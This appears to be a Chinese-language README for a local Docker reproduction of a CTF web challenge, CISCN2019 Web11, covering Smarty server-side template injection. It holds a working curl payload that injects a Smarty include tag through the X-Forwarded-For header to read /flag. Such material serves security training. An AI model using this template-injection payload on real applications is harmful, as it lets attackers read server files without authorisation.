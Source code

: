 # CISCN2019 华东南赛区 Web11

## 题目详情

- **CISCN2019 华东南赛区 Web11**

复现完才发现其实蛮简单- -

## 考点

-  Smarty SSTI

## 启动

    docker-compose up -d
    open http://127.0.0.1:80/

## Payload

```
curl -X GET \
  http://127.0.0.1/xff/ \
  -H 'X-Forwarded-For: {include file='\''/flag'\''}'
```

## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（ i@zhaoj.in ）
